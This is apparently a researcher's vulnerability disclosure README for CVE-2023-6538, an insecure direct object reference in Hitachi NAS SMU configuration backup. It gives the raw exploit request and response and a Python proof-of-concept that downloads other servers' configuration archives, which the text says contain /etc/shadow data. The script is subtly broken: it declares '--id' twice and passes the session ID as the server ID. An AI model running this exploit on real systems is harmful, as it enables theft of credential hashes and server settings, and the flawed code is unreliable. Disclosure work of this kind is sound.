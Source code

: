 ## CVE-2023-6538
`CVE-2023-6538` is an *Insecure Direct Object Reference* (**IDOR**) in 
vulnerability found in Hitachi NAS' (`HNAS`') *System Management Unit* (`SMU`) 
`Configuration Backup & Restore` functionality. This vulnerability affects 
`SMU` versions prior to `14.8.7825.01`.

## Exploitation
This exploit requires the attacker to have control over the credentials of a 
user account that is not `Read-Only` or `Global Administrator`, i.e.:
- `Storage Administrator`
- `Server Administrator`
- `Server + Storage Administrator`

By design, users with the `Global Administrator` role should be able to access 
`SMU`'s `Configuration Backup & Restore` functionality, located at 
`https://<HOSTNAME/FQDN/IP>/mgr/app/template/simple%2CDownloadConfigScreen.vm?serverid=1` 
and send the following request, which would create and download the backup of 
the selected server's (i.e. a server that is connected to the `SMU`) 
configuration:

```
GET /mgr/app/template/simple%2CDownloadConfigScreen.vm?serverid=1 HTTP/1.1
Host: REDACTED
Cookie: JSESSIONID=REDACTED; JSESSIONIDSSO=REDACTED
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Dnt: 1
Referer: https://REDACTED/mgr/app/action/serveradmin.ConfigRestoreAction/eventsubmit_doperform/ignored
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

```

If the request is successful, the `SMU` responds with the following response 
and starts the download of `registry_data.tgz`:

```
HTTP/1.1 200 
Cache-Control: PRIVATE
Expires: Thu, 01 Jan 1970 00:00:00 GMT
Strict-Transport-Security: max-age=31536000;includeSubDomains
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
P3P: CP="NOI DSP CUR ADMa DEVa TAIa OUR BUS IND UNI COM NAV INT"
Pragma: cache
Content-Disposition: attachment;filename=registry_data.tgz
Content-Type: application/download
Content-Length: 3169247
Date: Fri, 14 Apr 2023 09:30:03 GMT
Connection: close
Server: SMU

[DATA]
```
However, due to an oversight in `SMU`'s business logic, an attacker with 
access to a `Storage Administrator`, `Server Administrator` or 
`Server + Storage Administrator` account can update the `JSESSIONID` and 
`JSESSIONIDSSO` cookies to match the cookies of the user that they are in 
possession of, allowing them to download the configuration archive. 
Additionally, the attacker can also update the `serverid` parameter in the 
request to enumerate and download the configuration archive of different 
servers connected to the `SMU`.

Thus, a script like `CVE-2023-6538.py` could be used to exploit this 
vulnerability:

```python
#!/usr/bin/python3
#
# Title:            Hitachi NAS (HNAS) System Management Unit (SMU) Configuration Backup & Restore IDOR Vulnerability 
# CVE:              CVE-2023-6538
# Date:             2023-12-13
# Exploit Author:   Arslan Masood (@arszilla)
# Vendor:           https://www.hitachivantara.com/
# Version:          < 14.8.7825.01
# Tested On:        13.9.7021.04     

import argparse
from os import getcwd

import requests

parser = argparse.ArgumentParser(
    description="CVE-2023-6538 PoC",
    usage="./CVE-2023-6538.py --host <Hostname/FQDN/IP> --id <JSESSIONID> --sso <JSESSIONIDSSO>"
    )

# Create --host argument:
parser.add_argument(
    "--host",
    required=True,
    type=str,
    help="Hostname/FQDN/IP Address. Provide the port, if necessary, i.e. 127.0.0.1:8443, example.com:8443"
    )

# Create --id argument:
parser.add_argument(
    "--id",
    required=True,
    type=str,
    help="JSESSIONID cookie value"
    )

# Create --sso argument:
parser.add_argument(
    "--sso",
    required=True,
    type=str,
    help="JSESSIONIDSSO cookie value"
    )

# Create --id argument:
parser.add_argument(
    "--id",
    required=True,
    type=str,
    help="Server ID value"
    )

args = parser.parse_args()

def download_file(hostname, jsessionid, jsessionidsso, serverid):
    # Set the filename:
    filename = "registry_data.tgz"

    # Vulnerable SMU URL:
    smu_url = f"https://{hostname}/mgr/app/template/simple%2CDownloadConfigScreen.vm?serverid={serverid}"

    # GET request cookies
    smu_cookies = {
        "JSESSIONID":       jsessionid,
        "JSESSIONIDSSO":    jsessionidsso
        }

    # GET request headers:
    smu_headers = {
        "User-Agent":                   "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0",
        "Accept":                       "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
        "Accept-Language":              "en-US,en;q=0.5",
        "Accept-Encoding":              "gzip, deflate",
        "Dnt":                          "1",
        "Referer":                      f"https://{hostname}/mgr/app/action/serveradmin.ConfigRestoreAction/eventsubmit_doperform/ignored",
        "Upgrade-Insecure-Requests":    "1",
        "Sec-Fetch-Dest":               "document",
        "Sec-Fetch-Mode":               "navigate",
        "Sec-Fetch-Site":               "same-origin",
        "Sec-Fetch-User":               "?1",
        "Te":                           "trailers",
        "Connection":                   "close"
        }

    # Send the request:
    with requests.get(smu_url, headers=smu_headers, cookies=smu_cookies, stream=True, verify=False) as file_download:
        with open(filename, 'wb') as backup_archive:
            # Write the zip file to the CWD:
            backup_archive.write(file_download.content)

    print(f"{filename} has been downloaded to {getcwd()}")

if __name__ == "__main__":
    download_file(args.host, args.id, args.sso, args.id)
```

The justification of the CVSS v3.1 score of 7.6 could be further understood by 
examining `registry_data.tgz`:

```
$ tree -a
.
├── backup.properties
├── registry5.11.db1
├── registry5.13.db1
├── registry5.14.db1
├── registry5.15.db1
├── registry5.1.db1
├── registry5.2.db1
├── registry5.3.db1
├── registry5.4.db1
├── registry5.5.db1
├── registry5.6.db1
├── registry5.7.db1
├── registry5.8.db1
└── registry5.db1

1 directory, 14 files
```

The `.tgz` archive contains various settings and information about the server 
that is connected to the `SMU`:

![registry5][registry5]

As seen in the redacted image above, `registry5.db1` contains the contents 
of `/etc/shadow` (which was found via regex) of the selected server.

## Notes
This vulnerability is a "sister vulnerability" to 
[CVE-2023-5808][CVE-2023-5808].

## References
- [CVE-2023-5808][CVE-2023-5808]
- [CVE-2023-6538][CVE-2023-6538]
- [Hitachi Vantara Security Bulletin for CVE-2023-6538][Hitachi Vantara Security Bulletin]

## Timeline
- 2020-04-12 - Vulnerability discovered
- 2023-04-20 - Vulnerability reported to security.vulnerabilities@hitachivantara.com
- 2023-08-11 - Initial CVE number assignment
- 2023-12-06 - CVE numbers re-assigned
- 2023-12-11 - CVE numbers re-assigned
- 2023-12-11 - CVE published
- 2023-12-13 - Public disclosure

[registry5]:                            ./images/registry5.png
[CVE-2023-5808]:                        https://www.cve.org/CVERecord?id=CVE-2023-5808
[CVE-2023-6538]:                        https://www.cve.org/CVERecord?id=CVE-2023-6538
[Hitachi Vantara Security Bulletin]:    https://knowledge.hitachivantara.com/Security/System_Management_Unit_(SMU)_versions_prior_to_14.8.7825.01%2C_used_to_manage_Hitachi_Vantara_NAS_products_is_susceptible_to_unintended_information_disclosure_via_unprivileged_access_to_SMU_configuration_backup_data.
